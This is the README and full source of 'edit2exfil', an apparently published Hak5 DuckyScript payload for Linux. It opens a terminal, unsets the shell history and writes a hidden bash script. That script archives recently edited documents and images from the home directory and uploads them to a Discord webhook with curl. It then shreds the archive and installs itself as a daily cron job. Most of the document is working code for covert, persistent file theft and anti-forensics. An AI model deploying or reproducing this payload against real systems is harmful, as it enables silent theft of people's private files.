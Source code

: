 REM TITLE: edit2exfil

REM AUTHOR: OSINTI4L (https://github.com/OSINTI4L)

REM TARGET OS: Linux (tested on Kali Linux Release 2025-W19)

REM DESCRIPTION: (See below)

REM REQUIREMENTS: Place Discord webhook in the #WEBHOOK_URL constant on line 10 | Timing of when and how frequent the script will be ran (10:00 AM, daily by default) via `cronjob` can be changed in line 53.

REM: This payload can also be found on [Hak5 Payload Hub](https://payloadhub.com/blogs/payloads/edit2exfil) and received the weekly payload award (May 2025).

-----

## edit2exfil

edit2exfil is a persistent file exfiltration payload that embeds itself as a `cronjob` on Linux systems via bash script, running silently in the background allowing for persistent exfiltration of updated files.

**The payload builds a bash script (.e2e.sh) that performs multiple tasks in the following order:**

1. a `net_check` conditional statement is utilized to see if the machine has internet connectivity. This is acheived by sending a `PING` to [Hak5.org](https://hak5.org). If `PING` was **NOT** successful, the script exits and will be ran again in 24 hours by default (or the next scheduled time of your choosing). If the `PING` **WAS** successful, the script moves to a secondary conditional statement >
2. a `file_check` conditional statement is utilized to see if the following document file types have been modified (edited) in the past 24 hours in the /home directory (recursively): `.txt, .pdf, .docx, .doc, .csv, .xlsx, .png, .jpg, .jpeg, .sh`. If there are **NOT** any documents (with the previous file types) that have been modified in the past 24 hours in the /home directory (recursively), the script exits and will be ran again in 24 hours by default (or the next scheduled time of your choosing), else >
3. The files are tarballed (.loot.tar.gz) and placed (hidden) in the /home directory for exfiltration >
4. The tarball is then exfiltrated via Discord webhook >
5. The tarball is then `shredded` to obfuscate its' presence >
6. End of script.

Total time for DuckyScript payload to run: `7 seconds`.

**DuckyScript Payload Workflow:**
  1. Terminal window is opened >
  2. Terminal history is unset (to obfuscate building of the payloads' bash script (.e2e.sh) > bash script is built >
  3. Execution permissions are given to .e2e.sh > .e2e.sh is added to `cronjob` to automatically run silently in the bachkground daily at 10:00 AM >
  4. Terminal window is closed >
  5. End of payload.

**Payload Bash Script (.e2e.sh):**
```
# Creating file_check function to see if the listed filetypes (and their respective documents) have been modified (edited) in the past 24 hours:
file_check() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | grep -q . 
}

# Creating hidden tarball function to tarball the listed documents (of the respective filetypes) that have been modified (edited) in the past 24 hours:
tarball() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | tar -czf ~/.loot.tar.gz --null -T -
}

# Creating net_check function to check for internet connectivity by send a PING to hak5.org:
net_check() {
    ping -c 1 hak5.org
}

# Creating global $user variable:
user="$(whoami)"

# If internet connection, check for files, if files, tarball, else exit:
if net_check; then
    if file_check; then
        tarball
    else
        exit 0
    fi
else
    exit 0
fi

# Exfiltrate tarball of found files to Discord:
curl -X POST -H "Content-Type: multipart/form-data" \
-F "file=@/home/$user/.loot.tar.gz" \
-F "content=$ Loot Incoming $" \
#WEBHOOK_URL

# Shred the tarball post exfiltration to obfuscate:
shred -fuz ~/.loot.tar.gz
```

**DuckyScript Payload (building of above script):**
```
REM Place Discord webhook and user constants:
DEFINE #WEBHOOK_URL https://discord.com/api/webhooks/PLACE/WEBHOOK/HERE
DEFINE #USER PLACE_USER_HERE

REM Begin attack:
ATTACKMODE HID
DELAY 1000

REM Opening terminal:
CTRL ALT t
DELAY 300

REM Unsetting terminal history and building ".e2e.sh":
STRINGLN unset HISTFILE
STRINGLN cat > .e2e.sh
STRINGLN_BASH
file_check() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | grep -q . 
}
tarball() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | tar -czf ~/.loot.tar.gz --null -T -
}
net_check() {
    ping -c 1 hak5.org
}
user="$(whoami)"

if net_check; then
    if file_check; then
        tarball
    else
        exit 0
    fi
else
    exit 0
fi
curl -X POST -H "Content-Type: multipart/form-data" \
-F "file=@/home/$user/.loot.tar.gz" \
-F "content=$ Loot Incoming $" \
#WEBHOOK_URL
shred -fuz ~/.loot.tar.gz
END_STRINGLN
CTRL c

REM Granting execution permissions and adding ".e2e.sh" to cronjob to be executed at 10:00 AM, daily:
STRINGLN chmod +x .e2e.sh; crontab -l > e2etemp; echo "0 10 * * * ~/.e2e.sh" >> e2etemp; crontab e2etemp; shred -fuz e2etemp; exit
```
